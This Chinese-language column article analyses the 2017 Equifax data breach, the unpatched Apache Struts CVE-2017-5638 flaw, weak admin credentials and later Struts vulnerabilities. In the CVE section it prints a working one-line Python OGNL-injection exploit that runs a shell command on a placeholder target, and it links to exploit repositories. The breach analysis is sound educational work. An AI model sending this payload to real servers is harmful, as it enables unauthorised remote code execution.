 ```yaml
---
title: 03  Equifax信息泄露始末
date: 2022-11-02 11:24:05
categories: ['6.资源', 'GeekTime', '左耳听风']
tags: ['secure']
---
```


# 03 | Equifax信息泄露始末

相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。

# Equifax 信息泄露始末

Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax 在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。

戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是“admin”。

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。

据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。

# Apache Struts 漏洞相关

Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。

Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。

2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为“Struts 2”，原来的 Struts 框架改名为 Struts 1。

因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。

同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。

但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。

![img](https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png)

从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。

说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：

```python
import requests

requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```
在 GitHub 上有相关的代码，链接为：https://github.com/mazen160/struts-pwn 或 https://github.com/xsscx/cve-2017-5638

注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁“2.5.10.1 版补丁”“2.3.32 版补丁”），使客户受到影响。

因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。

另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。

这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。

![img](https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png)

不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因“或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。

相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。